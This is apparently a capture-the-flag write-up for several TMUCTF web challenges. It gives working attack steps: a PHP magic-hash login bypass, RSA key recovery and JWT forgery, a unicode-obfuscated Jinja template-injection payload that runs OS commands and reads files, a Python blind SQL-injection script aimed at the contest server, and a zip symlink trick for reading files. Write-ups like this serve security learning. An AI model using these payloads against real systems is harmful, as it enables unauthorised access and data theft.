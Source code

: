 ## Challenge Login
Step 1: /robots.txt -> get source.
Step 2: input password = `0e1137126905` (payload).
Flag -> `TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}`

## Challenge The Devil Never Sleeps

Step 1: `/sleepingpill` -> get jwt and public key.
Step 2: format public key.
File `key.pub`
```
-----BEGIN PUBLIC KEY-----
MIGsMA0GCSqGSIb3DQEBAQUAA4GaADCBlgKBjgD/////////////////////////
/////////////////////////////////////////////////////////////3//
///////////+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAECAwEAAQ==
-----END PUBLIC KEY-----
```
Step 3: Use RsaCtfTool to gen private key.
`./RsaCtfTool.py --publickey ./key.pub --private`

Private key
```
-----BEGIN RSA PRIVATE KEY-----
MIICkAIBAAKBjgD/////////////////////////////////////////////////
/////////////////////////////////////3/////////////+AAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAECAwEAAQKBjSp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WA
Kn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqVVWqqlVVqqpVVaoAVf+q
AFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+q
AFX/qgBV/6oAVf+qAQJCAf//////////////////////////////////////////
////////////////////////////////////////////Akx/////////////////
////////////////////////////////////////////////////////////////
////////////////////AkIBgIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CA
f3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f38CTFVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqkCQRCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhC
EIQhBCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhCEIQhB
-----END RSA PRIVATE KEY-----
```
Step 4: Use jwt.io set `exp": 9999999999` and `"sleep": "true"`.
JWT
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Step 5: `/flag` set Header Pill.
```
Pill: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Flag -> `TMUCTF{0h_51nn3rm4n_Wh3r3_Y0u_60nn4_Run_70?}`

## Challenge Injection
filter: `_ [] . request popen mro config " os` and space

Bypass filter by unicode

```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('id')|attr('read')()}}
```
decode -> `lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('id')|attr('read')()`

`ls$IFS-t` -> sort files by time

Payload
```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat$IFS/opt/tmuctf/r3zQnO1s31')|attr('read')()}}
```
Final -> decode base64

## Challenge Fake Registration
```py
import requests
import string
from random import choices

url ="http://130.185.123.246/register"
flag=""
padding=""
list_char = string.ascii_letters+string.digits

def random_str()->str:
  return ''.join(choices(list_char,k=7))

def create_user(i,padding):
    data = {
            "username":f"{padding}'||substr((select password from users),{i},1),'tai')--",
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        # print('done')
    except Exception as e:
        print(e)
def brute(char,padding):
    data = {
            "username":padding+char,
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        return r
    except Exception as e:
        print(e)

if __name__ == "__main__":
    for i in range(1,70):
        padding = random_str()
        # print(padding)
        create_user(i,padding)
        for char in string.printable:
            print(char,end='\r')
            if char!="'":
                r=brute(char,padding)
                #print(r.text)
                try:
                    if "UNIQUE constraint" in r.text:
                        flag+=char
                        padding+=char
                        print(flag)
                        break
                except Exception as e:
                    print(e)
```
Flag -> `MUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}`

## Challenge nano
Step 1: `/index.html` -> get path `/801910ad8658876d56f5c8b24a563096.php` (view-source)

Step 2: `/801910ad8658876d56f5c8b24a563096.php?flag_help=/dev/fd/10` -> get path `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php`

Step 3: `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php` and upload zip

Gen zip
```
ls -s /etc/ff3efa4307078c85678c6adee3b5f1b1af2ba16e/nanoflag/flag.txt payload

zip --symlinks payload.zip payload
```

Upload zip and access `/upload/random/payload`
Flag -> `TMUCTF{Z1P_5l1p_15_4_D4n63r0u5_4rch1v3_3x7r4c710N_Vuln3r4b1l17Y___4nd_4_f0rm_0f_D1r3c70rY_7r4v3r54L!!}`

## Thank
Writeup full I will upload at http://dauhoangtai.github.io later
